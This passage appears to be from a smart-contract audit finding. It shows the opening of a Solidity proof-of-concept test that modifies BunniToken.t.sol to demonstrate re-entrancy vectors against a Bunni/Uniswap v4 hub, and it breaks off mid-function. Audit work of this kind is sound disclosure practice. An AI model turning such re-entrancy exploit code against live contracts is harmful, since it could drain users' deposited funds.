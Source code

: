 **Proof of Concept:** The following modifications to `BunniToken.t.sol` demonstrate all re-entrancy vectors:

```solidity
// SPDX-License-Identifier: AGPL-3.0
pragma solidity ^0.8.4;

import {IUnlockCallback} from "@uniswap/v4-core/src/interfaces/callback/IUnlockCallback.sol";

import {LibString} from "solady/utils/LibString.sol";

import "./BaseTest.sol";
import "./mocks/ERC20UnlockerMock.sol";

import {console2} from "forge-std/console2.sol";

contract User {
    IPermit2 internal constant PERMIT2 = IPermit2(0x000000000022D473030F116dDEE9F6B43aC78BA3);
    address referrer;
    address unlocker;
    address token0;
    address token1;
    address weth;

    constructor(address _token0, address _token1, address _weth) {
        token0 = _token0;
        token1 = _token1;
        weth = _weth;
    }

    receive() external payable {}

    function updateReferrer(address _referrer) external {
        referrer = _referrer;
    }

    function doDeposit(
        IBunniHub hub,
        IBunniHub.DepositParams memory params
    ) external payable {
        params.referrer = referrer;
        IERC20(Currency.unwrap(params.poolKey.currency1)).approve(address(PERMIT2), type(uint256).max);
        PERMIT2.approve(address(Currency.unwrap(params.poolKey.currency1)), address(hub), type(uint160).max, type(uint48).max);

        PERMIT2.approve(address(token0), address(hub), type(uint160).max, type(uint48).max);
        PERMIT2.approve(address(token1), address(hub), type(uint160).max, type(uint48).max);
        PERMIT2.approve(address(weth), address(hub), type(uint160).max, type(uint48).max);

        console2.log("doing re-entrant deposit");
        (uint256 shares,,) = hub.deposit{value: msg.value}(params);
    }

    function updateUnlocker(address _unlocker) external {
        console2.log("updating unlocker: %s", _unlocker);
        unlocker = _unlocker;
    }

    function doUnlock() external {
        if(ERC20UnlockerMock(unlocker).token().isLocked(address(this))) {
            console2.log("doing unlock");
            ERC20UnlockerMock(unlocker).unlock(address(this));
        }
```